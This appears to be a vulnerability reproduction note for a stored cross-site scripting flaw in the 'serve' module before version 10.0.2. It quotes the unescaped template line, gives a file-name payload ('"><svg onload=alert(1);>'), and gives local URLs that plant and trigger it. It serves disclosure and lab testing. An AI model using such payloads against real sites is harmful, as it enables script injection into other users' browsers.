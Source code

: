 # Cross-Site Scripting @ serve
- module : serve
- version : < 10.0.2
- severity: Medium

# Installation

`docker-compose up --build`

# Details

the problem is that the template which the module is using used file names without sanitizing 
```html
<a href="{{=value.relative}}" title="{{=value.title}}" class="{{=value.ext}}">{{=value.base}}</a>
```
so if a file is named `"><svg onload=alert(1);>` for example, an alert will popup once we open the page that lists files in the directory.

# Lunch Attack

1. open the Browser and enter the following url `http://localhost:4000/create-file?name=%22%3E%3Csvg%20onload%3Dalert%281%29%3B%3E` 
    this will create file with name `"><svg onload=alert(1);>`

2. open the Browser and enter the following url `http://localhost:3000/` an alert will popup once we open the page that lists files in the directory 
    that mean the attack passed successfully.